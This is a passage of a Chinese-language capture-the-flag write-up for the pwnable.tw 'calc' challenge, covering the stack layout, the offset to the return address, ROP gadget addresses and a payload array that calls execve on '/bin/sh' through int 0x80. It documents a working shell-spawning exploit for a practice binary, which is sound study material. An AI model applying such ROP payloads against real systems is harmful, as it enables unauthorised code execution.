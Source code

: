 calc函数堆栈如图

![image-20220408160751755](pwnabletw.assets/image-20220408160751755.png)

59Ch = 359*4

ebp0 = num[359+1], ret = num[359+1+1]，+1是因为调用printf时，`num[pool-1]`

构造系统调用gadget

```
eax=0xb 
ebx=“/bin/sh”字符串的地址 
ecx=0 
edx=0 
int 80h

'''使用ROPgadgetx
0x0805c34b : pop eax ; ret
0x080701d1 : pop ecx ; pop ebx ; ret
0x080701aa : pop edx ; ret
0x08049a21 : int 0x80
'''
eax:调用号
edx:0
ecx:0
ebx:binsh --> execv(binsh,0,0)

payload = [0x0805c34b,0xb,0x080701aa,0,0x080701d1,0,bin_sh,0x08049a21,0x6e69622f,0x0068732f]
```

本地调试calc函数，ebp中存储了ebp+20h的地址，需要先在ret地址处写入8个gadget和参数（共占32字节），然后再在栈中写入“bin/sh”。所以binsh地址可以用ebp+24h来表示

![image-20220408162334663](pwnabletw.assets/image-20220408162334663.png)
